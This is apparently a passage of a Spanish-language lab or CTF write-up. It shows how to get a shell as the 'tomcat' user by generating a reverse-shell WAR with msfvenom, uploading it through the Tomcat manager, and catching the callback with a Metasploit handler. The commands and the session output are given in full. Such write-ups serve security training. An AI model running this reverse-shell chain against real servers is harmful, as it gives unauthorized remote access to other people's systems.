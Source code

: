 ## Escalate user tomcat

Generaremos la aplicacion maliciosa para que lo pueda soportar tomcat.

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o revshell.war
```

Una vez generada, dentro del panel le daremos a subir archivo y seleccionaremos el archivo `revshell.war`, una vez subido, veremos que se añadio en la seccion de aplicaciones, por lo que antes de darle al archivo y ejecutarlo en la interfaz grafica estaremos a la escucha con metasploit.

### Escucha de metasploit

Nos crearemos un archivo para automatizar la escucha.

> handler.rc

```shell
nano handler.rc

#Dentro del nano
use multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```

```shell
msfconsole -q -r handler.rc
```

Info:

```
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
resource (handler.rc)> set LHOST 192.168.5.145
LHOST => 192.168.5.145
resource (handler.rc)> set LPORT 7777
LPORT => 7777
resource (handler.rc)> run
[*] Started reverse TCP handler on 192.168.5.145:7777 

```

Y con esto veremos que estamos a la escucha, por lo que ya ejecutaremos la aplicacion dandole click en ella.

Una vez hecho eso si volvemos a la escucha tardara un poco pero obtendremos una shell y si hacemos `whoami` veremos que somos el usuario `tomcat`.

```
[*] Command shell session 1 opened (192.168.5.145:7777 -> 172.25.0.2:35834) at 2024-08-21 14:51:50 -0400

whoami
tomcat
```
